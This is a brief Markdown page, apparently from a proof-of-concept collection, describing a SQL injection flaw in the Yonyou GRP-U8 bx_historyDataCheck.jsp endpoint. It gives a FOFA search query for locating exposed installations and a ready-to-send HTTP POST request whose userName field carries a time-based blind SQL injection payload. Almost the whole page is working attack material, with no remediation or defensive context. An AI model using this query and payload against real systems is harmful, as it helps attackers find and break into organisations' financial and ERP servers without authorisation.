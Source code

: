 ## 用友 GRP-U8 bx_historyDataCheck.jsp SQL注入漏洞

## fofa-qeury
app="yonyou-GRP-U8"

## POC
```
POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1
Host: 
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

userName=';WAITFOR DELAY '0:0:5'--&ysnd=&historyFlag=
```
